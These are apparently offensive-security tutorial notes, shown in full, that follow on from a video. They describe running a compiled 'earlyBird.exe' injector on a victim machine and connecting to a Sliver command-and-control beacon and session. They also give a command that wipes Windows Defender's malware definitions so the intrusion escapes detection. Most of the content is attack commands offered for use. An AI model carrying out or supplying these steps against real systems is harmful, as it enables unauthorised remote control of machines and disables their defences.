 # After getting the compiled file to the victim

```bash
.\earlyBird.exe
# Should give our desired output
```

---

# Interact with beacon in sliver

```bash
# with sliver running we should get a message from a beacon
# We need to use the `use` keyword with the beacon id

sliver> use 1c421c2c
sliver (OTHER_SLASH) > interactive
```

---

# Kill Windows Defender on your shell

```bash
cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

---

# Get a shell with your sliver session

```bash
# After getting `interactive` we get a session message
sliver (OTHER_SLASH) > use <session-id>
```

---Continue on 47:30
https://www.youtube.com/watch?v=YwiSqdIhl9g
